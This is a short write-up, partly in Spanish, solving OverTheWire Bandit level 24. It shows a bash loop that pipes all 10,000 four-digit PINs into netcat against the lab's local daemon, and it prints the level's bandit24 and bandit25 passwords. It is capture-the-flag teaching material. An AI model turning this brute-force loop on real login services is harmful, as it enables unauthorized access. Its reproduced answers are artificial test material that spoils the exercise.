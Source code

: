 ## Obejtivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso
**bandit.labs.overthewire.org**
**bandit24**
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución 
```
bandit24@bandit:~$ for i in {0000..9999};do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas adicionales 
Lo que se hizo fue usar fuerza bruta para obtener la contraseña
## Referencia